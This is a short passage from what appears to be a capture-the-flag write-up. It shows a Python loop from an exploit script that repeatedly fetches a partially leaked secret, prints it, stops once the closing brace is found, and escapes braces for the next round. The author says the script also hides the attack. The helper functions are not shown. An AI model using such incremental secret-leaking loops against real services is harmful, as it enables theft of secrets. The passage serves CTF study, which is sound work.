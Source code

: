 ```python
        # We will get a timeout here if the admin has left
        try:
            res = getCurrentSecret()
        except:
            break

        print("Flag is currently {}".format(res))

        if "}" in res:
            print("Found flag: {}".format(res))
            sys.exit()
        res = res.replace("{", "\\{")
```
Running it gives us the flag without requiring constantly updating the exploit, as well as hiding the attack in the Exploited room:

![leaking_flag](images/automatic_exploit.png)